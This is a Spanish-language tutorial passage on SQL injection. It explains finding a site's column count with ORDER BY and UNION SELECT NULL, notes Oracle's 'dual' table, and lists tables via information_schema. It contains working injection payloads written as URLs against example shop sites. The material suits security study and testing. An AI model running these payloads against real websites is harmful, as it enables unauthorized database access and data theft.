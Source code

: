 ### Enumerando el Número de columnas

Para poder hacer inyecciones SQL, necesitamos saber cuantas columnas esta empleando la web por detrás, hay diferentes métodos para saberlo:

* Con `order by`, con esto podemos saber cuantas columnas emplea la web dependiendo de la respuesta de la web

```
https://mitienda.com/products?categoria=Bañadores' order by 1,2-- -
```

En el caso de que la web emplee 3 tablas y ejecutasemos esa consulta, veríamos un error, sin embargo si añadimos otro más:

```
https://mitienda.com/products?categoria=Bañadores' order by 1,2,3-- -
```

Podríamos ver una respuesta diferente, en la que se produjese la inyección

* Con `union select`, mediante esto podemos saber cuantas columnas emplea la web, de una manera muy similar al `order by`, solo que en este caso añadimos la palabra NULL:

```
https://mitienda.com/products?categoria=Bañadores' union select NULL,NULL-- -
```

{% hint style="danger" %}
Oracle es algo diferente a otros tipos de BD, en el caso de que queramos probar una SQLi en una BD Oracle, debemos de especificarle una tabla la cual siempre se encuentra en las BD de Oracle que se llama `dual`, por lo que una inyección simple como esta no nos servirá:

```url
https://mitienda.com/products?categoria=Bañadores' union select NULL,NULL-- -
```

Y deberá de ser así:

```url
https://mitienda.com/products?categoria=Bañadores' union select NULL,NULL from dual-- -
```
{% endhint %}

### Enumerando Tablas

Una vez sepamos las BBDD a las que podemos acceder, podemos enumerar las tablas existentes de cada BD. Esto lo conseguimos de la siguiente forma:

{% code fullWidth="false" %}
```
https://myshop.com/filter?category=Pets' union select NULL, table_name from information_schema.tables where table_schema = 'Name_BD'-- -
```
{% endcode %}

<pre class="language-sql" data-full-width="false"><code class="lang-sql"><strong>SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'Name_BD'-- -'
</strong></code></pre>
